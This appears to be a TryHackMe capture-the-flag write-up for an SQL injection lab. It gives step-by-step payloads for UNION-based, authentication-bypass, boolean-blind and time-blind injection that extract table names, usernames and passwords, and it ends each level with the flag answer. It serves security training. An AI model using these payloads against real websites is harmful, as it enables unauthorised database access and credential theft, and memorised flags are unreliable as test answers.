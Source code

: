 ![Sql Injection Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/sql_injection/Sql_Injection_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/sql_injection/SQLI_Cover.png" alt="SQL Injection Cover">
</p>

# [SQL Injection](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/sql_injection)

## Table of Contents

- [In-Band SQLi](#in-band-sqli)
- [Blind SQLi - Authentication Bypass](#blind-sqli---authentication-bypass)
- [Blind SQLi - Boolean Based](#blind-sqli---boolean-based)
- [Blind SQLi - Time Based](#blind-sqli---time-based)

## In-Band SQLi

1. What is the flag after completing level 1?

   In this task we will retrieve a users password by using the information returned to us when exploiting the SQL queries.
   
   To start we add an `'` after the `id=1` statement in the browser to see if it is vulnerable to SQLi. Since we get an error, there is probably no proper filtering put in place. We can use the `UNION argument to get extra information. We first need to find the number of columns. Using the following command, adding numbers until we get no error message.
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   No we can get more information on the database. To suppress the output of the article we can add `0'` in front of the query.
   
   ```cmd
   0' UNION SELECT 1,2,database();--
   ```
   
   This gives us the name of the database, which is `sqli_one`. Next we need to find the table names.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one';--
   ```
   
   This uses `information_schema` to display information about the database and its entries. Here we find the tables `article` and `staff_users`. The latter one is of more interest to us if we want to find someones credentials. Now we move on the find the folumn names in the `staff_users` table.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users';--
   ```
   
   This gives us three columns: `id`, `username`, and `password`. Now we can enumerate the conents of this table while using some formatting to make it readable.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users;--
   
   ![SQLi In Band](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/sql_injection/SQLI_Inband_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_3840}</details>

## Blind SQLi - Authentication Bypass

1. What is the flag after completing level two? (and moving to level 3)

   In this task we are facing blind SQLi, where we don't get any feedback from our query. This is often the case when attempting to bypass login screesns. One of the most common/basic methods is to make sure the statement is always true. We can do this by escaping the query and writing a statement which is always true.
   
   ```cmd
   ' OR 1=1;--
   ```
   
   ![SQLi Authentication Bypass](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/sql_injection/SQLI_Authentication_Bypass_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_9581}</details>

## Blind SQLi - Boolean Based

1. What is the flag after completing level three?

   On level 3 we only get a true or false response to help us find the answer.
   
   We first need to find the number of columns using:
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   Add as many columns as needed for the response to become true.
      
   To enumerate the database names, we can use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   sqli_three
   ```
   
   To enumerate the table names within the database we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema="sqli_three" AND table_name LIKE '%';--
   ``
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   users
   ```
   
   To enumerate the columns within this table we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema="sqli_three" AND table_name="users" AND column_name LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. Then add it as 'column_name!=...' to make sure we don't get a hit on it again. This time we get:
   
   ```cmd
   'id', 'username', and 'password'
   ```
   
   Next we need to find any existing username. For this we use the same method as before:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username like '%';--
   ```
   
   After finding username `admin` we use the same method to find the corresponding password:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '%';--
   ```
   
   Going through all characters we find `3845`.

   ![SQLi Boolean](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/sql_injection/SQLI_Boolean_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_1093}</details>

## Blind SQLi - Time Based

1. What is the final flag after completing level four?

   In this step, we get no feedback at all. The only way to get som information is to use the response time from the server. For this we add the `sleep()` command in the query to add a delay. This is executed if the query is true.
   
   The method is the same as the previous question. But we only get a different response time instead of a true or false statement. We start by enumerating the databases, then the tables and column names. Lastly, we enumerate for the username and password. In the end we get the following query.
   
   ```cmd
   admin123' UNION SELECT sleep(2),2 FROM users WHERE username='admin' AND password='4961';--
   ```
   
   ![SQLi Time Based](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/sql_injection/SQLI_Time_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_MASTER}</details>
